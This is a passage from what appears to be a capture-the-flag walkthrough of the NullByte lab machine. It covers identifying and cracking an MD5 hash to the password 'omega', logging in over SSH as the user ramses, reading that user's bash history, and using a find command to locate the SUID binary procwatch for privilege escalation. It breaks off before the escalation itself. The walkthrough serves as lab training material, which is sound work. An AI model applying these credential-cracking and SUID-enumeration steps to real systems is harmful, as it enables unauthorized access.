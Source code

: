 ```
                                                                                                      
   -------------------------------------------------------------------------                          
 HASH: c6d6bd7ebf806f43c76acc3681703b81

Possible Hashs:
[+]  MD5
[+]  Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
So we just check that on hashtoolkit and its plaintext is "omega".
insert 6.png
![](pics/6.PNG)
Now that we might have the password for this ramses user, we try it against the phpmyadmin and the ssh running on the box. No dice for phpmyadmin but we can ssh in as ramses for low privileges. Looking around, the first thing we notice is ramses bash history.
```
ramses@NullByte:~$ cat .bash_history
sudo -s
su eric
exit
ls
clear
cd /var/www
cd backup/
ls
./procwatch 
clear
sudo -s
cd /
ls
exit
```
Looks like that procwatch binary is running as suid also.
```
ramses@NullByte:~$ find / -perm -4000 -exec ls -al -print 2>/dev/null {} \; | grep procwatch
391947 -rwsr-xr-x 1 0 0 4932 Aug  2  2015 /var/www/backup/procwatch
```
In the folder with it we find this random text file
```
ramses@NullByte:/var/www/backup$ ls
procwatch  readme.txt
ramses@NullByte:/var/www/backup$ cat readme.txt
I have to fix this mess... 
```
So we run the procwatch executable, and it spits out this about sh and ps.